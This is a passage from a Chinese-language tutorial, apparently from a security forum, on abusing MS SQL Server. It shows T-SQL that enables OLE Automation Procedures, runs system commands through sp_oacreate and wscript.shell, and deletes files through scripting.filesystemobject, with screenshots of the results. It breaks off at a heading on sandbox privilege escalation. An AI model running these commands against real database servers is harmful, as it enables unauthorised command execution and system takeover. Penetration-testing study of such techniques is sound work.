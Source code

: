 ##### Ⅱ 启用OLE Automation Procedures选项

当启用 OLE Automation Procedures 时，对 sp\_OACreate 的调用将会启动 OLE 共享执行环境。

```php
exec sp_configure 'show advanced options',1;
reconfigure;
exec sp_configure 'Ole Automation Procedures',1;
reconfigure;
```

![2s43wj.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-cc57619c62660affbd105669de58e4932a4c46d6.png)

类似的，关闭组件命令

```php
exec sp_configure 'show advanced options',1;
reconfigure;
exec sp_configure 'Ole Automation Procedures',0;
reconfigure;
```

##### Ⅲ 利用sp\_oacreate和sp\_oamethod执行命令

- 写入文件

```php
declare @shell int exec sp_oacreate 'ws cript.shell',@shell output 
exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c whoami >c:\\sqltest.txt';
```

回显0表示成功

![2s41mQ.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-e974fd866c4c6612404b88c0aedb20e7e590eba5.png)

由于这里是无回显的命令执行，到另一台主机上查看效果，成功写入。

![2s48Ts.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-000d8dab5a66d01957a0f9e3651875b89d4af00f.png)

- 删除文件

```php
declare @result int
declare @fso_token int
exec sp_oacreate 's cripting.filesystemO bject', @fso_token out
exec sp_oamethod @fso_token,'deletefile',null,'c:\sqltest.txt'
exec sp_oadestroy @fso_token
```

![2s4tf0.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-780f15b8120191e2f22f1f3d3e80c1359f2121a4.png)

可以看到文件已删除

![2s4YYq.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-cb6ffe13fe51b449a3912fc5b36ae219206f7fce.png)

同样，也可以使用4.1中的创建用户进行登陆拿shell。

### 3、利用SQL Server沙盒提权
